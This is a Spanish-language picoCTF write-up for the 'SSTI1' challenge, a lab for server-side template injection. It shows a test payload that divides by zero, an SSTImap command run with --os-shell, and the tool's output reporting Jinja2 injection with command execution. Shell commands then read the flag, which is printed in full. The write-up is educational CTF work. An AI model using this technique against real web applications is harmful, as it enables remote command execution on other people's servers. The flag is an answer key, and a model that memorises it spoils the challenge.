 ```yaml
---
title: SST1
date: 2025-04-10 17:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, ssti, sstimap]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SSTI1
Author: Venax
Description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto parece mostrar una web donde puedes introducir lo que quieras y lo mostrará en una página
Lanzamos la instancia y nos mostrará una web con un formulario y un botón para enviarlo. 
``` html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 

*Announcements may only reach yourself 
```
Cuando envías el formulario en el botón ok , te redirige a una web http://rescued-float.picoctf.net:54968/announce y allí aparecerá
el "anuncio" introducido en letras grandes

Al principio no tenía ni idea así que mire la pista que da, __Server Side Template Injection__ . Entonces fue cuando caí en la cuenta
muchos templates utilizan las llaves "{}" para parametrizar valores en los templamismos, entonces comencé a experimentar con este tipo de 
inyección. 

Encontré una que produjo un error en el servidor al dividir por 0, lo que indica que en cierta manera el servidor ejecuta lo que está dentro de las llaves
``` shell
{ {1/0} }
```

``` html
Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

Para tratar de explotar si existiera alguna vulenerabilidad utilizo SSTIMap [hacktools/#ssti](../hacktools/#ssti)
La primera prueba me confirma que parece que la web utiliza un plugin que es inyectable
**jinja2 plugin has confirmed injection with tag '*'**

Ahora podría atacar el plugin en concreto pero voy a intentarlo de nuevo pasandole la flag --os-shell y ver que pasa
``` shell
(sstimap) pablo☠office sstimap$ python sstimap.py --url="http://rescued-float.picoctf.net:55270" -f  --os-shell

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://rescued-float.picoctf.net:55270/ "content="
[*] Scanning form with url: http://rescued-float.picoctf.net:55270/
[*] Testing if Body parameter 'content' is injectable
[*] Twig_v1 plugin is testing rendering with tag '*'
[*] Freemarker plugin is testing rendering with tag '*'
[*] Jinja2 plugin is testing rendering with tag '*'
[+] Jinja2 plugin has confirmed injection with tag '*' 
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ ls
__pycache__
app.py
flag
requirements.txt
posix-linux $ cat flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```
Pues resulta que te podemos conseguir una shell y haciendo un simple ls y cat obtenemos la flag.

flag: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}**